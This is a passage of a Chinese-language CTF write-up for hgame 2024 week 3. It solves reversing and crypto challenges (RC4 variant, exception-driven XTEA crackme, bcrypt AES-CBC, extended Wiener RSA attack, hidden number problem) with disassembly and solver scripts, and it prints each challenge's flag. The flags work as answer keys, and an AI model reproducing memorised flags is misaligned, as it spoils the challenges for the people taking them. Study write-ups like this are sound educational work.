def RC4Stream(key: bytes, text: bytes):
    S = bytearray(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    for _ in range(len(text)):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        k = S[(S[i] + S[j]) % 256]
        yield k

def RC4(key: bytes, text: bytes):
    return bytes(c ^ k for c, k in zip(text, RC4Stream(key, text)))

def RC4Var(key: bytes, text: bytes):
    return bytes((c + k) & 0xFF for c, k in zip(text, RC4Stream(key, text)))

arr_plain = RC4(arr_K, arr_plain)
result = RC4Var(arr_plain, arr_cipher)
success(result.decode(errors='ignore'))
```

```bash
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/mystery/sol.py
[+] hgame{I826-2e904t-4t98-9i82}
PS D:\Workspace\rev\hgame_2024\week_3>
```

`hgame{I826-2e904t-4t98-9i82}`

### crackme

>

MSVC 异常处理。

不难发现三个 catch 块：

```assembly
.text:00007FF75D9B51E1 ; ---------------------------------------------------------------------------
.text:00007FF75D9B51E1
.text:00007FF75D9B51E1 L_EH_1:                                 ; DATA XREF: .rdata:00007FF75D9B6D34↓o
.text:00007FF75D9B51E1                                         ; .pdata:00007FF75D9BA6B4↓o ...
.text:00007FF75D9B51E1 ;   catch(...) // owned by 7FF75D9B191C
.text:00007FF75D9B51E1                 mov     [rsp+148h+var_138], rdx
.text:00007FF75D9B51E6                 push    rbp
.text:00007FF75D9B51E7                 sub     rsp, 20h
.text:00007FF75D9B51EB                 mov     rbp, rdx
.text:00007FF75D9B51EE                 mov     eax, [rbp+30h]
.text:00007FF75D9B51F1                 and     eax, 3
.text:00007FF75D9B51F4                 mov     eax, [rbp+rax*4+40h]
.text:00007FF75D9B51F8                 mov     ecx, [rbp+30h]
.text:00007FF75D9B51FB                 add     ecx, eax
.text:00007FF75D9B51FD                 mov     eax, ecx
.text:00007FF75D9B51FF                 mov     ecx, [rbp+2Ch]
.text:00007FF75D9B5202                 shr     ecx, 5
.text:00007FF75D9B5205                 mov     edx, [rbp+2Ch]
.text:00007FF75D9B5208                 shl     edx, 4
.text:00007FF75D9B520B                 xor     edx, ecx
.text:00007FF75D9B520D                 mov     ecx, edx
.text:00007FF75D9B520F                 add     ecx, [rbp+2Ch]
.text:00007FF75D9B5212                 xor     ecx, eax
.text:00007FF75D9B5214                 mov     eax, ecx
.text:00007FF75D9B5216                 mov     ecx, [rbp+24h]
.text:00007FF75D9B5219                 add     ecx, eax
.text:00007FF75D9B521B                 mov     eax, ecx
.text:00007FF75D9B521D                 mov     [rbp+24h], eax
.text:00007FF75D9B5220                 lea     rax, L_EH_1_RESUME
.text:00007FF75D9B5227                 add     rsp, 20h
.text:00007FF75D9B522B                 pop     rbp
.text:00007FF75D9B522C                 retn
.text:00007FF75D9B522C ; ---------------------------------------------------------------------------
.text:00007FF75D9B522D                 align 2
.text:00007FF75D9B522E
.text:00007FF75D9B522E L_EH_2:                                 ; DATA XREF: .rdata:00007FF75D9B6D3B↓o
.text:00007FF75D9B522E                                         ; .pdata:00007FF75D9BA6C0↓o ...
.text:00007FF75D9B522E ;   catch(...) // owned by 7FF75D9B1942
.text:00007FF75D9B522E                 mov     [rsp+arg_8], rdx
.text:00007FF75D9B5233                 push    rbp
.text:00007FF75D9B5234                 sub     rsp, 20h
.text:00007FF75D9B5238                 mov     rbp, rdx
.text:00007FF75D9B523B                 mov     eax, [rbp+30h]
.text:00007FF75D9B523E                 shr     eax, 0Bh
.text:00007FF75D9B5241                 and     eax, 3
.text:00007FF75D9B5244                 mov     eax, [rbp+rax*4+40h]
.text:00007FF75D9B5248                 mov     ecx, [rbp+30h]
.text:00007FF75D9B524B                 add     ecx, eax
.text:00007FF75D9B524D                 mov     eax, ecx
.text:00007FF75D9B524F                 mov     ecx, [rbp+24h]
.text:00007FF75D9B5252                 shr     ecx, 6
.text:00007FF75D9B5255                 mov     edx, [rbp+24h]
.text:00007FF75D9B5258                 shl     edx, 5
.text:00007FF75D9B525B                 xor     edx, ecx
.text:00007FF75D9B525D                 mov     ecx, edx
.text:00007FF75D9B525F                 add     ecx, [rbp+24h]
.text:00007FF75D9B5262                 xor     ecx, eax
.text:00007FF75D9B5264                 mov     eax, ecx
.text:00007FF75D9B5266                 mov     ecx, [rbp+2Ch]
.text:00007FF75D9B5269                 add     ecx, eax
.text:00007FF75D9B526B                 mov     eax, ecx
.text:00007FF75D9B526D                 mov     [rbp+2Ch], eax
.text:00007FF75D9B5270                 lea     rax, L_EH_2_RESUME
.text:00007FF75D9B5277                 add     rsp, 20h
.text:00007FF75D9B527B                 pop     rbp
.text:00007FF75D9B527C                 retn
.text:00007FF75D9B527C ; ---------------------------------------------------------------------------
.text:00007FF75D9B527D                 align 2
.text:00007FF75D9B527E
.text:00007FF75D9B527E L_EH_3:                                 ; DATA XREF: .rdata:00007FF75D9B6D42↓o
.text:00007FF75D9B527E                                         ; .pdata:00007FF75D9BA6CC↓o ...
.text:00007FF75D9B527E ;   catch(...) // owned by 7FF75D9B1968
.text:00007FF75D9B527E                 mov     [rsp+arg_8], rdx
.text:00007FF75D9B5283                 push    rbp
.text:00007FF75D9B5284                 sub     rsp, 20h
.text:00007FF75D9B5288                 mov     rbp, rdx
.text:00007FF75D9B528B                 mov     eax, [rbp+3Ch]
.text:00007FF75D9B528E                 mov     ecx, [rbp+30h]
.text:00007FF75D9B5291                 xor     ecx, eax
.text:00007FF75D9B5293                 mov     eax, ecx
.text:00007FF75D9B5295                 mov     [rbp+30h], eax
.text:00007FF75D9B5298                 lea     rax, L_EH_3_RESUME
.text:00007FF75D9B529F                 add     rsp, 20h
.text:00007FF75D9B52A3                 pop     rbp
.text:00007FF75D9B52A4                 retn
.text:00007FF75D9B52A4 ; ---------------------------------------------------------------------------
```

```c
__int64 (__fastcall *__fastcall L_EH_1(__int64 a1, _DWORD *a2))()
{
  a2[9] += (a2[(a2[12] & 3) + 16] + a2[12]) ^ (a2[11] + ((a2[11] >> 5) ^ (16 * a2[11])));
  return L_EH_1_RESUME;
}

__int64 (__fastcall *__fastcall L_EH_2(__int64 a1, _DWORD *a2))()
{
  a2[11] += (a2[((a2[12] >> 11) & 3) + 16] + a2[12]) ^ (a2[9] + ((a2[9] >> 6) ^ (32 * a2[9])));
  return L_EH_2_RESUME;
}

void (*__fastcall L_EH_3(__int64 a1, _DWORD *a2))()
{
  a2[12] ^= a2[15];
  return L_EH_3_RESUME;
}
```

其实现了一个加密和 key scheduling 均经过修改的 XTEA。

```assembly
.text:00007FF75D9B18A8 ;   try {
.text:00007FF75D9B18A8                 mov     [rsp+148h+i_blk], 0
.text:00007FF75D9B18B0                 jmp     short L_ENC_BLOCKS_BODY
.text:00007FF75D9B18B2 ; ---------------------------------------------------------------------------
.text:00007FF75D9B18B2
.text:00007FF75D9B18B2 L_ENC_BLOCKS_NEXT:                      ; CODE XREF: main+35C↓j
.text:00007FF75D9B18B2                 mov     eax, [rsp+148h+i_blk]
.text:00007FF75D9B18B6                 add     eax, 2
.text:00007FF75D9B18B9                 mov     [rsp+148h+i_blk], eax
.text:00007FF75D9B18BD
.text:00007FF75D9B18BD L_ENC_BLOCKS_BODY:                      ; CODE XREF: main+240↑j
.text:00007FF75D9B18BD                 cmp     [rsp+148h+i_blk], 8
.text:00007FF75D9B18C2                 jge     L_ENC_BLOCKS_DONE
.text:00007FF75D9B18C8                 movsxd  rax, [rsp+148h+i_blk]
.text:00007FF75D9B18CD                 mov     rdx, rax
.text:00007FF75D9B18D0                 lea     rcx, [rsp+148h+var_78]
.text:00007FF75D9B18D8                 call    fun_deref_add4m
.text:00007FF75D9B18DD                 mov     eax, [rax]
.text:00007FF75D9B18DF                 mov     [rsp+148h+v_0], eax
.text:00007FF75D9B18E3                 mov     eax, [rsp+148h+i_blk]
.text:00007FF75D9B18E7                 inc     eax
.text:00007FF75D9B18E9                 cdqe
.text:00007FF75D9B18EB                 mov     rdx, rax
.text:00007FF75D9B18EE                 lea     rcx, [rsp+148h+var_78]
.text:00007FF75D9B18F6                 call    fun_deref_add4m
.text:00007FF75D9B18FB                 mov     eax, [rax]
.text:00007FF75D9B18FD                 mov     [rsp+148h+v_1], eax
.text:00007FF75D9B1901                 mov     [rsp+148h+rounds], 0
.text:00007FF75D9B1909                 jmp     short L_ENC_ROUNDS_BODY
.text:00007FF75D9B190B ; ---------------------------------------------------------------------------
.text:00007FF75D9B190B
.text:00007FF75D9B190B L_ENC_ROUNDS_NEXT:                      ; CODE XREF: main:L_EH_3_RESUME↓j
.text:00007FF75D9B190B                 mov     eax, [rsp+148h+rounds]
.text:00007FF75D9B190F                 inc     eax
.text:00007FF75D9B1911                 mov     [rsp+148h+rounds], eax
.text:00007FF75D9B1915
.text:00007FF75D9B1915 L_ENC_ROUNDS_BODY:                      ; CODE XREF: main+299↑j
.text:00007FF75D9B1915                 cmp     [rsp+148h+rounds], 32
.text:00007FF75D9B191A                 jge     short L_ENC_ROUNDS_DONE
.text:00007FF75D9B191A ;   } // starts at 7FF75D9B18A8
.text:00007FF75D9B191C ;   try {
.text:00007FF75D9B191C                 lea     rax, aException ; "exception"
.text:00007FF75D9B1923                 mov     [rsp+148h+pExceptionObject], rax
.text:00007FF75D9B192B                 lea     rdx, __TI2PEAD  ; pThrowInfo
.text:00007FF75D9B1932                 lea     rcx, [rsp+148h+pExceptionObject] ; pExceptionObject
.text:00007FF75D9B193A                 call    _CxxThrowException
.text:00007FF75D9B193A ; ---------------------------------------------------------------------------
.text:00007FF75D9B193F                 align 20h
.text:00007FF75D9B1940                 jmp     short $+2
.text:00007FF75D9B1940 ;   } // starts at 7FF75D9B191C
.text:00007FF75D9B1942 ; ---------------------------------------------------------------------------
.text:00007FF75D9B1942
.text:00007FF75D9B1942 L_EH_1_RESUME:                          ; CODE XREF: main+2D0↑j
.text:00007FF75D9B1942                                         ; DATA XREF: main+3BB0↓o
.text:00007FF75D9B1942 ;   try {
.text:00007FF75D9B1942                 lea     rax, aException_0 ; "exception"
.text:00007FF75D9B1949                 mov     [rsp+arg_98], rax
.text:00007FF75D9B1951                 lea     rdx, __TI2PEAD  ; pThrowInfo
.text:00007FF75D9B1958                 lea     rcx, [rsp+arg_98] ; pExceptionObject
.text:00007FF75D9B1960                 call    _CxxThrowException
.text:00007FF75D9B1960 ; ---------------------------------------------------------------------------
.text:00007FF75D9B1965                 align 2
.text:00007FF75D9B1966                 jmp     short $+2
.text:00007FF75D9B1966 ;   } // starts at 7FF75D9B1942
.text:00007FF75D9B1968 ; ---------------------------------------------------------------------------
.text:00007FF75D9B1968
.text:00007FF75D9B1968 L_EH_2_RESUME:                          ; CODE XREF: main+2F6↑j
.text:00007FF75D9B1968                                         ; DATA XREF: main+3C00↓o
.text:00007FF75D9B1968 ;   try {
.text:00007FF75D9B1968                 lea     rax, aException_1 ; "exception"
.text:00007FF75D9B196F                 mov     [rsp+arg_A0], rax
.text:00007FF75D9B1977                 lea     rdx, __TI2PEAD  ; pThrowInfo
.text:00007FF75D9B197E                 lea     rcx, [rsp+arg_A0] ; pExceptionObject
.text:00007FF75D9B1986                 call    _CxxThrowException
.text:00007FF75D9B1986 ; ---------------------------------------------------------------------------
.text:00007FF75D9B198B                 align 4
.text:00007FF75D9B198C                 jmp     short $+2
.text:00007FF75D9B198C ;   } // starts at 7FF75D9B1968
.text:00007FF75D9B198E ; ---------------------------------------------------------------------------
.text:00007FF75D9B198E
.text:00007FF75D9B198E L_EH_3_RESUME:                          ; CODE XREF: main+31C↑j
.text:00007FF75D9B198E                                         ; DATA XREF: main+3C28↓o
.text:00007FF75D9B198E ;   try {
.text:00007FF75D9B198E                 jmp     L_ENC_ROUNDS_NEXT
.text:00007FF75D9B1993 ; ---------------------------------------------------------------------------
.text:00007FF75D9B1993
.text:00007FF75D9B1993 L_ENC_ROUNDS_DONE:                      ; CODE XREF: main+2AA↑j
.text:00007FF75D9B1993                 movsxd  rax, [rsp+148h+i_blk]
.text:00007FF75D9B1998                 mov     rdx, rax
.text:00007FF75D9B199B                 lea     rcx, [rsp+148h+var_78]
.text:00007FF75D9B19A3                 call    fun_deref_add4m
.text:00007FF75D9B19A8                 mov     ecx, [rsp+148h+v_0]
.text:00007FF75D9B19AC                 mov     [rax], ecx
.text:00007FF75D9B19AE                 mov     eax, [rsp+148h+i_blk]
.text:00007FF75D9B19B2                 inc     eax
.text:00007FF75D9B19B4                 cdqe
.text:00007FF75D9B19B6                 mov     rdx, rax
.text:00007FF75D9B19B9                 lea     rcx, [rsp+148h+var_78]
.text:00007FF75D9B19C1                 call    fun_deref_add4m
.text:00007FF75D9B19C6                 mov     ecx, [rsp+148h+v_1]
.text:00007FF75D9B19CA                 mov     [rax], ecx
.text:00007FF75D9B19CC                 jmp     L_ENC_BLOCKS_NEXT
.text:00007FF75D9B19D1 ; ---------------------------------------------------------------------------
.text:00007FF75D9B19D1
.text:00007FF75D9B19D1 L_ENC_BLOCKS_DONE:                      ; CODE XREF: main+252↑j
.text:00007FF75D9B19D1                 lea     rdx, [rsp+148h+var_40]
.text:00007FF75D9B19D9                 lea     rcx, [rsp+148h+var_78]
.text:00007FF75D9B19E1                 call    sub_7FF75D9B27F0
.text:00007FF75D9B19E6                 movzx   eax, al
.text:00007FF75D9B19E9                 test    eax, eax
.text:00007FF75D9B19EB                 jz      short loc_7FF75D9B1A12
.text:00007FF75D9B19ED                 lea     rdx, aRight     ; "right!"
.text:00007FF75D9B19F4                 mov     rcx, cs:?cout@std@@3V?$basic_ostream@DU?$char_traits@D@std@@@1@A ; std::ostream std::cout
.text:00007FF75D9B19FB                 call    sub_7FF75D9B2870
```

观察 main 函数汇编可以发现，在每轮加密中分别抛出三个异常，对应了三个异常处理函数，即为 XTEA 算法的三步 操作。同样我们也能够发现每次加密的块不重叠，以及密钥与 delta 的具体值。

那么我们不难写出解密程序：

```c
#define _CRT_SECURE_NO_WARNINGS

#include <assert.h>
#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <ctype.h>
#include <wchar.h>

#pragma warning(push)
#pragma warning(disable:6031)

static uint32_t cipher[] = {
    0x32FC31EA, 0xF0566F42, 0xF905B0B2, 0x5F4551BE, 0xFB3EFCBB, 0x6B6ADB30, 0x04839879, 0x2F4378DF
};
static const uint32_t KEY[] = {
    0x000004D2, 0x00000929, 0x00000D80, 0x000011D7
};

void decipher(unsigned int num_rounds, uint32_t *pv0, uint32_t *pv1, uint32_t const k[4]) {
    uint32_t v0 = *pv0, v1 = *pv1;
    const uint32_t delta = 0x33221155;
    uint32_t sum = 0;
    for (int i = 0; i < num_rounds; i++) {
        sum ^= delta;
        v1 -= (((v0 << 5) ^ (v0 >> 6)) + v0) ^ (sum + k[(sum >> 11) & 3]);
        v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + k[sum & 3]);
    }
    *pv0 = v0; *pv1 = v1;
}

int main(void) {
    for (int i_blk = 0; i_blk < 8; i_blk += 2) {
        uint32_t *pv0 = cipher + i_blk;
        uint32_t *pv1 = cipher + i_blk + 1;
        decipher(32, pv0, pv1, KEY);
    }

    for (int i = 0; i < sizeof(cipher); i++) {
        putchar(((uint8_t *)cipher)[i]);
    }
    putchar('\n');

    return 0;
}

#pragma warning(pop)
```

`hgame{C_p1us_plus_exc3pti0n!!!!}`

### encrypt

>

Windows bcrypt 分析。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  ...

  v17 = 0i64;
  v4 = 0i64;
  phAlgorithm = 0i64;
  v5 = 0i64;
  phKey = 0i64;
  iv = 0i64;
  v28 = 0;
  pcbResult = 0;
  *(_DWORD *)pbOutput = 0;
  *(_DWORD *)v26 = 0;
  cbOutput = 0;
  sub_140001770(std::cin);
  wcscpy(pszAlgId, L"AES");
  *(__m128i *)pbInput = _mm_load_si128((const __m128i *)&xmmword_1400034F0);
  *(__m128i *)&pbInput[16] = _mm_load_si128((const __m128i *)&xmmword_1400034E0);
  if ( BCryptOpenAlgorithmProvider(&phAlgorithm, pszAlgId, 0i64, 0) >= 0
    && BCryptGetProperty(phAlgorithm, L"ObjectLength", pbOutput, 4u, &pcbResult, 0) >= 0 )
  {
    d_obj_len = *(_DWORD *)pbOutput;
    ProcessHeap = GetProcessHeap();
    v5 = (UCHAR *)HeapAlloc(ProcessHeap, 0, d_obj_len);
    if ( v5 )
    {
      if ( BCryptGetProperty(phAlgorithm, L"BlockLength", v26, 4u, &pcbResult, 0) >= 0 )
      {
        d_block_len = *(_DWORD *)v26;
        v10 = GetProcessHeap();
        iv = HeapAlloc(v10, 0, d_block_len);
        if ( iv )
        {
          memcpy(iv, arr_iv, *(unsigned int *)v26);
          v12 = 8i64;
          *(__m128i *)pbInput = _mm_xor_si128(
                                  _mm_load_si128((const __m128i *)&xmmword_140003500),
                                  _mm_loadu_si128((const __m128i *)pbInput));
          do
            *(_WORD *)&pbInput[2 * v12++] ^= 0x55u;
          while ( v12 < 15 );
          if ( BCryptSetProperty(phAlgorithm, L"ChainingMode", pbInput, 0x20u, 0) >= 0
            && BCryptGenerateSymmetricKey(phAlgorithm, &phKey, v5, *(ULONG *)pbOutput, (PUCHAR)pbSecret, 16u, 0) >= 0
            && BCryptExportKey(phKey, 0i64, L"OpaqueKeyBlob", 0i64, 0, &cbOutput, 0) >= 0 )
          {
            v13 = cbOutput;
            v14 = GetProcessHeap();
            v15 = (UCHAR *)HeapAlloc(v14, 0, v13);
            if ( v15 )
            {
              if ( BCryptExportKey(phKey, 0i64, L"OpaqueKeyBlob", v15, cbOutput, &cbOutput, 0) >= 0 )
              {
                v16 = GetProcessHeap();
                v17 = HeapAlloc(v16, 0, 0x32ui64);
                if ( v17 )
                {
                  *v17 = xmmword_140005750;
                  v17[1] = xmmword_140005760;
                  v17[2] = xmmword_140005770;
                  *((_WORD *)v17 + 24) = word_140005780;
                  if ( BCryptEncrypt(phKey, (PUCHAR)v17, 0x32u, 0i64, (PUCHAR)iv, *(ULONG *)v26, 0i64, 0, &v28, 1u) >= 0 )
                  {
                    v18 = v28;
                    v19 = GetProcessHeap();
                    v4 = HeapAlloc(v19, 0, v18);
                    if ( v4 )
                    {
                      if ( BCryptEncrypt(
                             phKey,
                             (PUCHAR)v17,
                             0x32u,
                             0i64,
                             (PUCHAR)iv,
                             *(ULONG *)v26,
                             (PUCHAR)v4,
                             v28,
                             &pcbResult,
                             1u) >= 0
                        && BCryptDestroyKey(phKey) >= 0 )
                      {
                        phKey = 0i64;
                        v20 = GetProcessHeap();
                        HeapFree(v20, 0, v17);
                        v17 = 0i64;
                        if ( !memcmp(v4, &unk_140005050, v28) )
                          puts("right flag!");
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  
  ...
  
  return 0;
}
```

AES 很明显，现在需要找到三个关键参数：mode of operation，密钥和 IV。

密钥和 IV 很好找，分别在 `BCryptGenerateSymmetricKey` 和 `BCryptEncrypt` 处引用。Mode of operation 是一个字符串，存在两个 OWORD 里并进行了一次异或：

```c
*(__m128i *)mode = _mm_load_si128((const __m128i *)&xmmword_1400034F0);
*(__m128i *)&mode[16] = _mm_load_si128((const __m128i *)&xmmword_1400034E0);
...
v12 = _8i64_;
*(__m128i *)mode = _mm_xor_si128(
                      _mm_load_si128((const __m128i *)&xmmword_140003500),
                      _mm_loadu_si128((const __m128i *)mode));
do
  *(_WORD *)&mode[2 * v12++] ^= 0x55u;
while ( v12 < 15 );
```

`xmmword_140003500` 中全是零扩展的 0x55。那么解密可得到 mode of operation 为 CBC。

容易编写解密脚本：

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from pwn import *

XMM_CHAINING_MODE = bytes([0x0016, 0x003D, 0x0034, 0x003C, 0x003B, 0x003C, 0x003B, 0x0032, 0x0018, 0x003A, 0x0031, 0x0030, 0x0016, 0x0017, 0x0016])
KEY = bytes([0x4C, 0x9D, 0x7B, 0x3E, 0xEC, 0xD0, 0x66, 0x1F, 0xA0, 0x34, 0xDC, 0x86, 0x3F, 0x5F, 0x1F, 0xE2])
IV = bytes([0x93, 0x6A, 0xF2, 0x25, 0xFA, 0x68, 0x10, 0xB8, 0xD0, 0x7C, 0x3E, 0x5E, 0x9E, 0xE8, 0xEE, 0x0D])
CIPHER = bytes([0xA4, 0xE1, 0x0F, 0x1C, 0x53, 0xBC, 0x42, 0xCD, 0x8E, 0x71, 0x54, 0xB7, 0xF1, 0x75, 0xE3, 0x50, 0x97, 0x20, 0x71, 0x97, 0xA8, 0x3B, 0x77, 0x61, 0x40, 0x69, 0x68, 0xC1, 0xB4, 0x7B, 0x88, 0x54, 0x9F, 0x19, 0x03, 0x44, 0x70, 0x78, 0x24, 0x25, 0xF0, 0xA9, 0x65, 0x35, 0x91, 0x3A, 0x04, 0x9C, 0x4E, 0x66, 0xBE, 0xD2, 0x8B, 0x8B, 0x20, 0x73, 0xCE, 0xA0, 0xCB, 0xE9, 0x39, 0xBD, 0x6D, 0x83])

chaining_mode = bytes(map(lambda x: x ^ 0x55, XMM_CHAINING_MODE)).decode(
    errors="ignore"
)[-3::]
info(f"Chaining mode: {chaining_mode}")
assert chaining_mode == "CBC"

F = AES.new(KEY, AES.MODE_CBC, IV=IV)
result = unpad(F.decrypt(CIPHER), block_size=F.block_size)
success(result.decode(errors="ignore"))
```

```bash
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/encrypt/sol.py
[*] Chaining mode: CBC
[+] hgame{rever5e_wind0ws_4P1_is_1nter3sting}
PS D:\Workspace\rev\hgame_2024\week_3>
```

`hgame{rever5e_wind0ws_4P1_is_1nter3sting}`

## Crypto

### exRSA

> RRRSA

Extended Weiner's attack，三个 d 已知情况（d 与 e 地位相等）。

```python
#!/usr/bin/env sage
# sol_1.sage

from sage.all import *

e1 = 5077048237811969427473111225370876122528967447056551899123613461792688002896788394304192917610564149766252232281576990293485239684145310876930997918960070816968829150376875953405420809586267153171717496198336861089523701832098322284501931142889817575816761705044951705530849327928849848158643030693363143757063220584714925893965587967042137557807261154117916358519477964645293471975063362050690306353627492980861008439765365837622657977958069853288056307253167509883258122949882277021665317807253308906355670472172346171177267688064959397186926103987259551586627965406979118193485527520976748490728460167949055289539
e2 = 12526848298349005390520276923929132463459152574998625757208259297891115133654117648215782945332529081365273860316201130793306570777735076534772168999705895641207535303839455074003057687810381110978320988976011326106919940799160974228311824760046370273505511065619268557697182586259234379239410482784449815732335294395676302226416863709340032987612715151916084291821095462625821023133560415325824885347221391496937213246361736361270846741128557595603052713612528453709948403100711277679641218520429878897565655482086410576379971404789212297697553748292438183065500993375040031733825496692797699362421010271599510269401
e3 = 12985940757578530810519370332063658344046688856605967474941014436872720360444040464644790980976991393970947023398357422203873284294843401144065013911463670501559888601145108651961098348250824166697665528417668374408814572959722789020110396245076275553505878565603509466220710219260037783849276475397283421068716088638186994778153542817681963059581651103563578804145156157584336712678882995685632615686853980176047683326974283896343322981521150211317597571554542488921290158122634140571148036732893808064119048328855134054709120877895941670166421664806186710346824494054783025733475898081247824887967550418509038276279
c = 1414176060152301842110497098024597189246259172019335414900127452098233943041825926028517437075316294943355323947458928010556912909139739282924255506647305696872907898950473108556417350199783145349691087255926287363286922011841143339530863300198239231490707393383076174791818994158815857391930802936280447588808440607415377391336604533440099793849237857247557582307391329320515996021820000355560514217505643587026994918588311127143566858036653315985177551963836429728515745646807123637193259859856630452155138986610272067480257330592146135108190083578873094133114440050860844192259441093236787002715737932342847147399
n = 17853303733838066173110417890593704464146824886316456780873352559969742615755294466664439529352718434399552818635352768033531948009737170697566286848710832800426311328560924133698481653594007727877031506265706341560810588064209681809146597572126173303463125668183837840427667101827234752823747483792944536893070188010357644478512143332014786539698535220139784440314481371464053954769822738407808161946943216714729685820896972467020893493349051243983390018762076812868678098172416465691550285372846402991995794349015838868221686216396597327273110165922789814315858462049706255254066724012925815100434953821856854529753

a = 2 / 5
D = diagonal_matrix(
    ZZ,
    [
        int(n ** (3 / 2)),
        n,
        int(n ** (3 / 2 + a)),
        int(n ** (1 / 2)),
        int(n ** (3 / 2 + a)),
        int(n ** (1 + a)),
        int(n ** (1 + a)),
        1,
    ],
)
L = (
    matrix(
        ZZ,
        [
            [1, -n, 0, n**2, 0, 0, 0, -(n**3)],
            [0, e1, -e1, -e1 * n, -e1, 0, e1 * n, e1 * n**2],
            [0, 0, e2, -e2 * n, 0, e2 * n, 0, e2 * n**2],
            [0, 0, 0, e1 * e2, 0, -e1 * e2, -e1 * e2, -e1 * e2 * n],
            [0, 0, 0, 0, e3, -e3 * n, -e3 * n, e3 * n**2],
            [0, 0, 0, 0, 0, e1 * e3, 0, -e1 * e3 * n],
            [0, 0, 0, 0, 0, 0, e2 * e3, -e2 * e3 * n],
            [0, 0, 0, 0, 0, 0, 0, e1 * e2 * e3],
        ],
    )
    * D
)
Lred = L.LLL()
t = vector(ZZ, Lred[0])
x = t * L ** (-1)
phi = int(x[1] / x[0] * e1)

d = inverse_mod(0x10001, phi)
m = pow(c, d, n)
print(m)
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/exRSA$ sage ./sol_1.sage
62770391407579870220560351172490252256456545247559991322470618696697177329564686225377593592423123894512647371133
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/exRSA$
```

```python
# sol_2.py

from Crypto.Util.number import long_to_bytes
from pwn import *

m = 62770391407579870220560351172490252256456545247559991322470618696697177329564686225377593592423123894512647371133

success(long_to_bytes(m).decode("ascii", errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/exRSA/sol_2.py 
[+] hgame{Ext3ndin9_W1en3r's_att@ck_1s_so0o0o_ea3y}
PS D:\Workspace\rev\hgame_2024\week_3>
```

`hgame{Ext3ndin9_W1en3r's_att@ck_1s_so0o0o_ea3y}`

### HNP

> hidden number problem

```python
from Crypto.Util.number import *
from secret import flag

def encrypt(m,p,t):
    return [(ti*m)%p for ti in t]

m=bytes_to_long(flag[:63])
length=m.bit_length()+8
p=getStrongPrime(length)
n=32
t=[getRandomRange(0,p) for _ in range(n)]
enc=encrypt(m,p,t)
res=[i%(2**n+1) for i in enc]

print(f'p={p}')
print(f't={t}')
print(f'res={res}')
```

问题复述如下：有一未知数$m$，给定质数$p$和$n$个数对$(r_i,t_i)$，满足$r_i \equiv t_i m\mod p \pmod{2^n+1}$。求$m$。

由于 HNP 求解问题形式为$\beta_i - t_i m + a_i \equiv 0 \pmod p$ s.t. $\left\|\beta_i\right\| \lt B$，我们将上式重写为以下形式：$k_i(2^n+1)-(-t_im)+r_i \equiv 0 \pmod p$。设$l=2^n+1$，对$l$求$\mathbb{Z}_p$上的逆元即可把它放到已知量中。$B$的值需要多尝试几次，但是我们知道它的上界是$p\mathbin{/}2^K$，其中$K=\left\lceil\sqrt{\log p}\right\rceil+\left\lceil\log\log p\right\rceil=16$，所以多试几个大于 16 的$K$就可以。做完这些处理后就可以用格上的 SVP 求解了。

（感谢这篇文章，梅开二度）

```python
#!/usr/bin/env sage

from sage.all import *

p = 11306299241774950053269547103284637414407835125777245204069367567691021928864773207548731051592853515206232365901169778048084146520829032339328263913558053
t_orig = [
    3322008555255129336821309701482996933045379792432532251579564581211072677403244970423357912298444457457306659801200188166569132560659008356952740599371688,
    8276764260264858811845211578415023343942634613522088631021199433066924291049858607045960690574035761370394263154981351728494309737901121703288822616367266,
    9872291736922974456420418463601129094227231979218385985149661132792467621940722580745327835405374826293791332815176458750548942757024017382881517284991646,
    4021521745142535813153669961146457406640791935844796005344073886289668464885011415887755787903927824762833158130615018326666118383128627535623639046817799,
    24569151076141700493541155834378165089870615699969211988778938492838766214386066952596557490584021813819164202001474086538804476667616708172536787956586,
    3218501156520848572861458831123822689702035242514803505049101779996231750875036344564322600086861361414609201214822262908428091097382781770850929067404210,
    3563405987398375076327633444036492163004958714828685846202818610320439306396912425420391070117069875583786819323173342951172594046652017297552813501557159,
    4914709045693863038598225124534515048993310770286105070725513667435983789847547225180024824321458761262390817487861675595466513538901373422149236133926354,
    10800566112999947911006702454427389510409658644419749067440812458744391509925306994806187389406032718319773665587324010542068486131582672363925769248595266,
    623364920052209790798128731089194813138909691039137935275037339503622126325928773037501254722851684318024014108149525215083265733712809162344553998427324,
    4918421097628430613801265525870561041230011029818851291086862970508621529074497601678774921285912745589840510459677522074887576152015356984592589649844431,
    7445733357215847370070696136653689748718028080364812263947785747353258936968978183471549706166364243148972154215055224857918834937707555053246184822095602,
    9333534755049225627530284249388438694002602645047933865453159836796667198966058177988500184073454386184080934727537200575457598976121667373801441395932440,
    5010854803179970445838791575321127911278311635230076639023411571148488903400610121248617307773872612743228998892986200202713496570375447255258630932158822,
    6000645068462569819648461070140557521144801013490106632356836325002546400871463957228581143954591005398533252218429970486115490535584071786260818773166324,
    8007260909124669381862034901556111245780505987082990804380814797200322228942432673939944693062470178256867366602331612363176408356304641672459456517978560,
    10179739175373883376929532026389135792129233730601278687507041429438945598523995700184622359660605910932803141785598758326254886448481046307666042835829725,
    8390072767717395701926289779433055672863880336031837009119103448675232362942223633129328309118158273835961567436591234922783953373319767835877266849545292,
    7875011911562967874676113680693929230283866841475641162854665293111344467709424408623198370942797099964625447512797138192853009126888853283526034411007513,
    5293772811020012501020124775214770193234655210319343058648675411115210453680753070042821835082619634341500680892323002118953557746116918093661769464642068,
